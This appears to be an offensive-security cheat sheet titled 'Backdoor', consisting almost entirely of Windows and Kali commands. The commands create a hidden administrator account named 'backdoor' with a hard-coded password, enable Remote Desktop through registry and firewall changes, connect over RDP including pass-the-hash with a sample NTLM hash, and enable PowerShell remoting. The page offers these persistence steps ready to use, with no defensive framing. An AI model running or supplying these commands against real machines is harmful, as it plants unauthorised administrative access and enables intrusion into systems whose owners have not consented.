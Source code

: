 # Backdoor

## Add a user to local Administrators & remote desktop users group

```bash
CMD> net user backdoor Password0- /add
CMD> net localgroup "Remote Desktop Users" /add backdoor
CMD> net localgroup Administrators backdoor /add
```

## Enable RDP&#x20;

{% code overflow="wrap" %}
```bash
CMD> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
CMD> netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
{% endcode %}

## Remote Desktop connection

{% code overflow="wrap" %}
```bash
Kali> xfreerdp /u:DOMAIN\\backdoor /p:Password0- /v:$RHOST +clipboard /cert:ignore
Kali> rdesktop -u backdoor -p Password0- $RHOST -r disk:share=/your_share_dir

Kali> xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP>
Kali> xfreerdp /v:172.16.1.20 /u:katwamba /pth:'14a71f9e65448d83e8c63d46355837c3' +clipboard
```
{% endcode %}

## Enable PS Remoting

```
PS> Enable-PSRemoting
PS> Enter-PSSession -Computername TAGRET
PS> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```
